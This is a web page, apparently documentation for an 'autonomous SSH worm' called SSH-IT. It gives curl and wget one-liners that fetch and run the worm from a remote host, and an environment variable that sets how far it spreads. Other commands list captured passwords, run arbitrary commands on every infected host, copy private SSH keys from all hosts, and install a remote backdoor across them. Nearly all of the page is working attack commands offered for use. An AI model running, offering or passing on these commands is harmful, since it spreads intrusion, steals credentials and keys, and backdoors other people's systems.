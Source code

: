 ```yaml
---
layout: default
title: SSH-IT / Deployment
description: Autonomous SSH worm deployment guide.
---
```


<!-- Begin of ugly CSS navigation styling hack -->
<style>a[href$="/deploy/"] { font-weight: bold; }</style>
<!-- End of ugly CSS navigation styling hack -->

{% include nav-ssh-it-v1.html margin-top="0" margin-bottom="4rem" %}

Use either one of these commands to deploy:

```shell
bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```

or:

```shell
bash -c "$(wget --no-verbose -O- ssh-it.thc.org/x)"
```

{:refdef: style="text-align: center;"}
![Deploy-Example](deploy-example2.png)
{: refdef}

To show all captured passwords use:

```shell
~/.config/prng/thc_cli -r list
```

{:refdef: style="text-align: center;"}
![Deploy-Example](list-example.png)
{: refdef}

To uninstall use:

```shell
~/.config/prng/thc_cli -r uninstall
```

## Environment variables:

Deployment can be controlled with these environment variables

| :--- | :--- |
| `THC_DEPTH=` | SSH-IT will spread to this depth and then stop. The default is `THC_DEPTH=2`. |
| `THC_BASEDIR=` | Installation directory. Default is `THC_BASEDIR="${HOME}/.config/prng"`. |
| `THC_VERBOSE=1` | For testing only: Display a warning to the user when *ssh* is being intercepted (in bold red). |
| `THC_DEBUG=1` | For testing only: Display debug information |
| `THC_DEBUG_LOG=thc.log` | For testing only: Output (most) debug information to `thc.log`. |

Example:

```shell
THC_DEPTH=6 THC_DEBUG=1 bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```

## Tips & Tricks

SSH-IT is controlled with `thc_cli`.

```
usage: thc_cli [-hr] [command]
    -h          This help
    -r          Recursive (for all hosts)
Command:
    list       - Show passwords
    exec <cmd> - Execute <cmd> on target [e.g. thc_cli -r exec "id; date"]
    clean      - Clean logfiles and state information
    disable    - Disable interception
    uninstall  - Clean, disable and completely remove
Example: thc_cli -r list
```

### Remote Command Execution

Executing a command on _all_ hosts:

```shell
~/.config/prng/thc_cli -r exec 'id'
```

Retrieve the private SSH key (`id_rsa`) from _all_ hosts:

```shell
~/.config/prng/thc_cli -r exec 'cat .ssh/id_rsa 2>/dev/null'
```

Install a [backdoor](https://www.gsocket.io/deploy) on _all_ hosts:

```shell
~/.config/prng/thc_cli -r exec 'bash -c "$(curl -fsSL gsocket.io/x)"'
```

### Offline Installs or when HTTPS is not available

Deploy from a self-extracting shell-script [ssh-it-deploy.sh](http://nossl.segfault.net/ssh-it-deploy.sh):

```shell
# Without HTTPS
wget --no-hsts http://nossl.segfault.net/ssh-it-deploy.sh && \
bash ./ssh-it-deploy.sh
```

### Help the team

Help us fix bugs and send us `thc.log` if a boo-boo happens:

```shell
THC_DEBUG=1 THC_DEBUG_LOG=thc.log ssh user@yourhost "id"
```

Special thanks to Leonardo, Gerald, BadAdvert1zer and DoctorWho for ideas and testing.

## Contact

{% include contact-details.md %}
